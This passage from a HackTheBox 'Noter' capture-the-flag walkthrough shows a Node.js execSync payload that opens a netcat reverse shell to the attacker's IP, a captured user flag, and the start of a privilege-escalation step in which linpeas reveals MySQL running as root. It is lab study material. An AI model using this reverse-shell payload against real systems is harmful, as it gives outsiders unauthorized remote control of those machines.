 
Set up a listener and a revshell payload and we got the user:

```js
---js
((require("child_process")).execSync("mkfifo /tmp/f; nc 10.10.14.96 5555 < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f"))
---RCE
```

<p align="center">
  <img src="/images/walkthroughs/hackthebox/noter/12_1_rev.png" width="90%"/>
</p>



We got in as _svc_ user and, luckily for me, it was the main user of the machine, so we got the flag:


``` 5756f19ee091ba1ddef208a8dbc4b4e8 ```


## Privesc

I uploaded linpeas.sh and check the output. When checking it I saw the MySQL server running as root:

```bash
# this is only for the mysqld standalone daemon
[mysqld]

#
# * Basic Settings
#
user                    = root
pid-file                = /run/mysqld/mysqld.pid
socket                  = /run/mysqld/mysqld.sock
```